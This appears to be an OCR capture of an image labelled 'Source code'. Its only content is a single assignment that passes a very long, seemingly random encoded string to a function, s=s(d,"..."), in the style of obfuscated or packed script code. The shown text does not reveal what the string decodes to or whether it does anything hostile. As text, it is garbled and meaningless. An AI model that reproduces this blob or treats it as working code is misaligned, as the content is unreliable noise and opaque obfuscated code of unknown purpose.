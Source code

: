 s=s(d,"mi4Y-PHLd0+&v=#xYv0LHi4vxLv4d=Pd4Y##L0#Hdxi+#P&9L&-Hiiivx+&4Y==in=viv0==&YL&=-Hi4xxHvidvv#0--#4dd-P+i0#-+x&v&-d4YxF&#YLxLHY#1v=+HHxx=q0-Px4+YLYPx4dYHLPP4xdYPLid#Y+#v=+Pdi-i>+#-P&-=-HFPHdY&x=vd0Yvi0dHH4#xxv0d0P0i&di-viL#4+=LdvYPdi0+P+HY+cP=S#xv#0+Hx#LxdvH0-Pd=#ut&P04(+4Px4&+d+-H!x#&+LLixdi+=L+=Hv#x#L=-0xH0i0xH&x-L-dxu+d&P0L>0x+#-+#L+P4tv#4H--PiK=&+HYdlYv#00H-4xL+4v=AP&+i4##--L&Y&Yv+x4L#H&##+iH0x+-H&YiP+4L&YLu4v=x=vx0YHH40x=v#0d-;iv#+&PdPPPi0L#-#iY=#+0=L+#LLYLIi=xYHdxY4HH-iP=i&0-v=P+4&#x&+dP&Hd=PPi#v#d#P-==+dLYY#(0=-=xv#LPI_ddP=&H#v-H4&Yv0L4-xP&0d--xLs-#4Y#-+dL=-i+d+tY=Md=Y#L=L++HdY=x#v40LP&#iv#vH0iP+i+x4vHY0Yxxvvx0dH-x&##&404-vx4=x&Ld4-&B&#Y&L-+Yvyi=d0&Li4=3+=P++i0#x+#L0--PxY&M0=-+-L-Yd##=G00HPYv0-HP40x-&x=x+PH-4vE+vH0xid#d+=Ld-YP=-vi&=9+HH0=i++HHYixviD5E=Y0iHH4L#&vDd->+)0#i&#L&PY+=+i-49==d3&#4+=L-A0v00-+LL4Y=&xv#0HP-40xLv&-v-v4Y#vL0LHPYi#=&&PY&iH*&=iLPY0x#v&0LHY4vx&v0dvP&x4vFdLP4i=Y=xL#L&Hi-YiH#-dLxP-LHdd+&YL-4=#i#v4#+4d0Pv#P&4xxa&&dH+PL=P0i0#4&vYY-Pi#==Yx-iYlYLd+0,0++4=HHYYdxdvYd#+40iPG4i#+0Yd+P44C##L+i4did-4Y&=Y=PHL0+0YP&idd+dviLHHxL-vvPd4&L0PHv-v=+xL=#xL&-Hii=v+LL4L=L0iY0#L&&P0Y#04?+0x&YPviA4xH0&+v==Pii=Pd#-00,p44#xv+00PLL&SL+-xd&d=YvvvvHP0#4+xPvFd&PH4i#vvxv4-#44#Y+#L0&6L#Y&r0#Y+xLdY+^+v#Y4Y=vL+40#4&+-+Hv0PP0&#0Y=&x4Yv+LM#vLd-Y_#=0+-HxL+H-iV0&PH40PQ#L=PLv#&Y4&xd#P-ix#+xH#-&dLx-x+vLL-4r==d+Y+#d0--=E+0HPYlx&iHfHv00LP=4HxHLYHPP&i0#=+&L0-P+&vdivY-&L&9Y0i&-4vx+YH-4xx+fHx#vxdxi#wxx&vid+Pd&Y7==iLHYxL4HXv=-+=H+iHvYLN4v=0d+iH#x0v-dxP+4Pxz&&v00ii=#&&4L=-dHH-L4Y=0Yxd&0x*iH&#+&iLH=HH44=xdvYd#P04-Y0x+dPPRi&#H&iLvvLHvi=+0LvY#u0=-Xvv&+dH&#&k-v400Pvv4#L4+-=##v0xYH4P0#PL4L-i P<&YL#-#Lv^0==0#H0Y-Hv4&x#v#H#HPYYx+&v0-#=&ddY-#i0#-+x0+dPiq=&+HLiYvOL=4x-+dYYdix=H#Y#-j0L+-v+PHLiLd90#4PYL=&H#=L+P4Ax=++PvY0#Ld-uId=Y0&H&4x=0=1d+Hi4-d+Px&vH#PPH=Y=#i4i+#d0-Y;#=0#===&hH#-Y(-vd0=Hi#Lx-vv0LHy4;xdvv4QxY&PdA-&dd-4i+#4+&L+Y0E+=YY0Q-vx0+HPYf=&YP=iP=YLx4&=dd0d03-#440x0#L#P-ev#-HiP0-Hi-==+ZWYDH9dHPHxvHdPLH0+4Lxd&vdLP4d&-=4+v#++L&--+&L0->F&=H#L=&+PLHv#+-HY4#x0iLx+vY0YP#Y-+H&dd&-&4d+x-0i+=#+0L-dHL0Y0z==+0+HHvv0YwPHL=d4LYz4PHYxQvLdPP{i&40i4##HLLY-&ii#%0xL=Y=/#=dYPP#+0&vdiLP0L+0vvP04L##&0d-0=L&P4iPLv-#ii=v+LvH+4d7-Lxi=4+#H-v&+4HJ4&xH4{=-v=H-P0x&=L&vHxYPx0v-+Li{=&+HLiYvsL=4ZH+dYYLP+xH0i#Lx&P4Hv+PL4d#v&Ld4d#dHPLiL=&+PLH=&&LL9Y&DHiPgi=++HHvY+evL#L=PPY4#xvL-%Ydi&x-&-iL#4+=Ld-Y)#=0=#+xY+iv=+xvHH=PPvHd=iP#4vxY&#d0+idOPY4YdbE_P=4&!&+d&i0xiL+-L#Y0o-vx=vvH0YHH4=,Yv&0vH,4iv&v4d+Pd4H&4-&i+#!+&LHd-L-YveP=dY0B#v#00H-0xP&4vxPv#HvH.4d#&&Ldx#d+rvHHYP-&vvi4HLxyv=&+iHvYL-dYxx0=30Yx0v-dxP+4Px_&&d#0ii=ii&4L=-dHiYxi##H&YL0xP#&#z+dH#4=&L+x0vPv4d+#&-L+-v=++P+&HdY&X-=JHLH044#0vPP#-+x-x4&4L#P4ixxYH4Y4xLv4d=+P04Hb40#vv4i+=40P42dHd+-&-i&iY#b#=Y0#H0d--x#+=Lvi0xxH&-L+vHv4i4&xHid=i0#-+xL+-Pi>=&*H&iY=iM=40=HddJPxY474+P0vPH4=xVPH&H0xdLd.#xv-0x#=L0004GH0#PfYH++iih0vHLY4x=vd0YP#Y=Y-v%d#PP4j#&b+#Hv-d&#4+=Ld-Yy#=0+-&iL+<H=x0&HHYiY=YvhHvvH+HdY4x=vYd=4=4-#v&+dd#4vDLL-4y=ixi4=4dHLYYYxxdPd&-0,&#dLvLv-4_iv0+LHY-H&Pdd-+iP#3#v#-&PLPi=<#=H+HH+v#v404HYL0#-Yi##HPx4vLdLP4i=Yi4*=x&:L04iix#0&-L+--+i#x+0d0dvPiLi_&Ydv-Y#dx+-4xxv0Li-P&#LPxP-&&YYH0#eD0L#k&=x+oH&YHPPYiXx=HLDHL4xx=v&PL#x&+dPPni&#HvixidLi4=+/&H-Y#xLq-HL+0YP+000+d#idPi+0+vvPdT4xP&4FYxiqYL0#xLvL-ii=v+L#-0xdoY-ii=v00LYe-v-dx0xP&Y0k2vv0-P44&&4vYd4iYxH#x+#P0-duL=d+iPLY#x#v&0dHHYd(nvYdxHL##x&v-dd#=v#d4-=idYPiY=+&wLd-=i0=YP&-LYx}P=-0YLiYi%4vv-0--4_#=v<47HL0Ldi5v#0PLLL&L--id=0+-HxdLHH-YaHdHLxP=Y-xL=W40xv&#d0P-H&-&4Yxd&-d4-+4txz-4;==d+YH#Y01-!i=+HHH(x&vH0i+-0.H8i#xv&-Y#YH4Y#Y+xYP4LVs&xHidY-CiH=PPdPYY=iBv0+iH=#P&b&HLY-HTx=&L4L-4=x-=kH0PPxxx=&=d0P=4+x#H=Y=N4v=0d&YdxH&40x=v#4HxY&&dHPisiL--4L=xii0Y-v0x4##&di-+iL0YHrivv#d=L0HP&4#+#+vd0HY4###&#d4P0&iLv-Li4==+dxYd#-0=P+&H+YPc54=B&=P+)HHY(=8vL0PPvi#xHPR4v#P&(L&+iPL4i_-04daH0-P&#+++4HdYLxH=-0-HP4xdv=&LHi4id#&?4=i4Y+xiLx+=P=&+0iP=L-H=Y+YHdYYx#i&x0v000P#4#d&&=iHvHPLx&&v&444+#L0--sx=++P=e+x-H=4vHHLY4x=YDlL=4004###&0vv0LH4#-xY&&L0-#ivx:LiLi-dii0#0&Ld-YZ!=+HIY&YGxH0+P#4Yxi&+d-PHix##&YLviH#i+vLL-4z==d#Y+#Y0n-vx0+HPYux&i+=iPvPYPH#Yvdv-xx0txYds-=iP#}+&#-+HdY=L+4H=YdeYv#000PHxx+vP0NP&4HxiYvv=04i#x+&YL#-0HL-4iv#-+vLLid_4=#d&H+YHx&v#0vP#YLn4P+=d=P4K+HH+vH0HxiL#P-iY=#+0&L+#Lv-YwP==ddH4YD>V=L+gx0=dd#P04--444#Hv+LvPY=ixY+dL#-dvd=-+vL4-i?a=#0#HxY00HHi4vxLv4d=Ld0P4#&0d--xi+#P&KL&dYPi=v+LL4Y=}d=Y0#v+L-K,vx0PH:4&-&DPxPv-P-#=&ddY-#i0#-dx#idPisY=adP+Y&y7xdLx+LY-E&v00-PxL=H0Y4xW&Ld#Pi40+40+dL-LiYL+-+)x=++P&H++L4YPUi=0YYu-vd0YP#L&P04HxxvidiP=&LdL-viL#4##=&&LLL-x^0L/--;P=)0&&0+ILiY0xPv4L&P-4vxvP-P&0iH-4U#i#,+i#&LL-4,==d+YH#Y0Y-?x0+HPY7x&vH0i4v+-Y4&#0iPYi##0W-vxH+P=-iid#Y+4L#=L+4H=Yd/Yv#00+0Hxx&vx0AP&4HY-i=xPvdL#P&?H#LvYL0=xv4#-4L++px+vPYxH<4v=0dHY4#x0v-&i0+4Hi+&&dHPid-P&4H#=d4-4.=4o#&&HYd-Ljxv=+4Lo--vPvP0vHPx4#xvv0LP-4#&-dxd--+##&4LL--Ax=#+0LH-i3==LH=YPnWxvH#=d#&+=x4HA0L4Y##&0d--xi++Pi-&&-Hii=v+LL4Y=0d-L=#H+Hxxxv+0Pvd0xH+Yixx0iPiiv4+#-vP-L-&id##+=dPY=i&#-+iL0YP)v=H+LHYYL
